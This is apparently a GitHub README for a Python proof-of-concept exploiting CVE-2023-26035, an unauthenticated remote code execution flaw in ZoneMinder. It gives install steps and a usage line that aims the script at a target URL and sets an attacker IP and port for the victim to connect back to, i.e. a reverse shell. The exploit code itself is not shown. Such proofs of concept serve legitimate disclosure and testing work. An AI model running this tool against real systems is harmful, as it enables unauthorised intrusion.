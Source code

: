 # Zoneminder Unauthenticated RCE via Snapshots (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in **CVE 2023-26035**. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)

```bash
git clone https://github.com/m3m0o/zoneminder-snapshots-rce-poc
cd zoneminder-snapshots-rce-poc
pip install -r requirements.txt
```

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```bash
python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443
```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
